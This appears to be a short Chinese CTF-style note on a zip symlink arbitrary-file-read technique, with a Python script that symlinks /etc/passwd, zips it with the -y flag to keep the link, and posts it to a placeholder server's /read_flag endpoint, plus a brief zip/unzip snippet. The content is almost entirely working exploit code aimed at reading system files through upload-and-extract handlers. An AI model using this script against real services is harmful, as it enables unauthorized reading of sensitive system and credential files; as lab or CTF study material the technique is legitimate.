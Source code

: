 ![img](https://ask.qcloudimg.com/http-save/yehe-1420111/ck8z30h2rv.png?imageView2/2/w/1620)

## Zip软链接任意文件读取

```python
import os
import requests

filename = "/etc/passwd"
os.system("rm flag out.zip")
os.system(f"ln -s {filename} flag && zip -ry out.zip flag")
burp0_url = "http://xxxxxxxxxx/read_flag"
upload = {"file": open('out.zip', "rb")}
r = requests.post(url=burp0_url, files=upload)
print(r.text)
```

### zip压缩保持软连接

使用参数-y，可以使zip能够保留软链接。

```python
zip -ry tmp2.zip tmp
unzip tmp2.zip
```

